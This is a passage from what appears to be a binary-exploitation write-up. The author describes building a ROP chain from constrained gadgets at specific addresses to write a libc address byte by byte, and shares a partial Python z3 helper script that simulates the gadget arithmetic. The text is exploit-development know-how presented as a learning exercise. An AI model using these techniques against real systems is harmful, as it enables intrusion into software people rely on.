 
If everything goes well and execute 0x7ffff7e2ee21 address, the ebx could be anything we want.

### Headache part

There is one specific problem that gave me so much headache at the start. The gadgets already limited and specific. So the calculations must be precise. What i am saying like this,

> eax could be only 0x2ec3 * n -> n the counter
>> (0x00401157: add eax, 0x2ec3; add [rbp-0x3d], ebx; nop; ret;)
>
>we can only use and add of least significant bit of eax which is al
>>0x0040115b: add [rcx], al; pop rbp; ret; -> this one costy. Everytime this one cost us 16 bytes. its popping rbp.
>
>Somehow we have to end up with  0x7ffff7e2ee21


I don't know the original PoC creator how calculated this but i developed a lazy script that made me the calculation for each individual byte. The script is not great but it does the job.

I also have to mention the other problem as you know, stack is not limitless, oversized payload buffer cause the `Segmentation Fault!` . Even the below one is so close. 

The script

```python
from z3 import *

# Define initial state values
initial_eax = 0x0
#initial_memory_rcx = 0x7ffff7e32be0 # print libc address
#initial_memory_rcx = 0x7ffff7e32b2b # 17 eax, 30 rcx
initial_memory_rcx  = 0x7ffff7e32b2b

# Define the target RL byte
#target_rl = 0x2b # Or 0x21 based on your example
#target_rl = 0xa5 # Or 0x21 based on your example
target_rl  = 0xee
# Global counters for function executions (for Python verification)
executed_functions = []

# --- Python Helper Functions (as before) ---
# Simulate memory as a dictionary
memory = {}
rcx = 0x404010

def add_eax_2ec3(eax_val: int) -> int:
    global executed_functions
    executed_functions.append("add_eax_2ec3")
    return eax_val + 0x2ec3

def get_al(eax_val: int) -> int:
    return eax_val & 0xff

def add_al_to_rl(eax_val: int, rcx_addr: int):
    global executed_functions
    executed_functions.append("add_al_to_rl")
    if rcx_addr not in memory:
        print(f"Error: Address {hex(rcx_addr)} not found in memory.")
        return
    al = get_al(eax_val)
    current_memory_val = memory[rcx_addr]
    current_rl = current_memory_val & 0xff
    new_rl = (current_rl + al) & 0xff
    memory[rcx_addr] = (current_memory_val & ~0xff) | new_rl

```